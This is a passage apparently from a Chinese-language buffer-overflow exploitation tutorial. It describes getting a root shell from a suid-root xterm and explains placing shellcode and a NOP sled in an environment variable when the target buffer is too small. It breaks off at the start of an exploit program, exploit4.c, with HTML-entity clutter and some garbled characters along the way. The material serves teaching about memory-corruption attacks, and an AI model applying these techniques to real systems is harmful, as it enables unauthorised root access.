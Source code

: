 (此处截短多行输出)

縏鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸗鸚arning: some arguments in previous message were lost

bash$

------------------------------------------------------------------------------

&nbsp; &nbsp;尤里卡! 仅仅几次尝试我们就成功了!如果xterm是带suid root安装的, 我们就已经

得到了一个root shell了. 

&nbsp; &nbsp;小缓冲区的溢出

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; ~~~~~~~~~~~~~~~~

&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;

&nbsp; &nbsp; 有时候想使其溢出的缓冲区太小了, 以至于shellcode都放不进去, 这样返回地址就

会被指令所覆盖, 而不是我们所推测的地址, 或者shellcode是放进去了, 但是没法填充

足够多的NOP指令, 这样推测地址的成功率就很低了. 要从这样的程序(小缓冲区)里得到

一个shell, 我们必须得想其他办法. 下面介绍的这种方法只在能够访问程序的环境变量

时有效.

&nbsp; &nbsp; 我们所做的就是把shellcode放到环境变量中去, 然后用这个变量在内存中的地址来

使缓冲区溢出. 这种方法同时也提高了破解工作的成功率, 因为保存shellcode的环境变

量想要多大就有多大.

&nbsp; &nbsp; 当程序开始时, 环境变量存储在堆栈的顶部, 任何使用setenv()的修改动作会在其他

地方重新分配空间. 开始时的堆栈如下所示:

&nbsp; &nbsp;&nbsp; &nbsp;&lt;strings&gt;&lt;argv pointers&gt;NULL&lt;envp pointers&gt;NULL&lt;argc&gt;&lt;argv&gt;&lt;envp&gt;

&nbsp; &nbsp; 我们新的程序会使用一个额外的变量, 变量的大小能够容纳shellcode和NOP指令,

新的破解程序如下所示:

exploit4.c

------------------------------------------------------------------------------

#include &lt;stdlib.h&gt;

#define DEFAULT_OFFSET&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp;&nbsp;0

#define DEFAULT_BUFFER_SIZE&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 512

#define DEFAULT_EGG_SIZE&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;2048

#define NOP&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp;&nbsp; &nbsp; 0x90

char shellcode[] =
